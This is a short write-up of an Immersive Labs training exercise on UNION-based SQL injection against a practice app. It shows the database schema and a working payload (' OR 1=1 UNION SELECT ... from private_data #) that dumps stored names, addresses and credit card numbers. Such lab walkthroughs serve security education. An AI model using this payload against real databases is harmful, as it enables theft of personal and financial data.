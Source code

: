 # Immersive Labs Write-up - SQL Injection UNION

## Description of problem

The ChatChat application has a search bar at the bottom of the page which allows users to search for other users by username. Try 'Ricochet' or 'Razzmatazz' to see some results. The form is vulnerable to SQL injection. Your task is to use different Union SQL injection techniques, to extract information from the database.

We can inject the `UNION` operator into a vulnerable parameter to append our own SQL statements. There must be an equal number of columns in each of the `SELECT` statements and corresponding columns must have the same data type.

Union in SQL is used to return an extra set of data along with the initial `SELECT` statement. As an attacker, we can leverage this to return data from additional columns and tables.



## Solution

Test injection works, we can use or 1=1 to get all result at first.

![image-20230521020811367](/Users/luohaochen/Library/Application Support/typora-user-images/image-20230521020811367.png)

Database Schema:

```SQL
CREATE TABLE `creators` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(50),
  `subscribers` int(11),
  `category` varchar(50),
  `team` varchar(50),
  `twitter` varchar(50),
  `instagram` varchar(50),
  PRIMARY KEY (`id`)
)
CREATE TABLE `private_data` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `full_name` varchar(50),
  `address` text,
  `phone_number` varchar(50),
  `card_num` varchar(50),
  `exp_date` varchar(50),
  PRIMARY KEY (`id`)
)
```

We can see that two table has different columns.

Key questions:

What is Dale Herbert's address?

What is the credit card number belonging to Sonya Jarvis?

What is the real name of the user with the Twitter handle of MrBigmouth?

To find answer for them, we can union two tables and extract all information:

```SQL
' OR 1=1 UNION SELECT *, id from private_data #
```

![image-20230521021049488](/Users/luohaochen/Library/Application Support/typora-user-images/image-20230521021049488.png)

Then we can find information we need from here.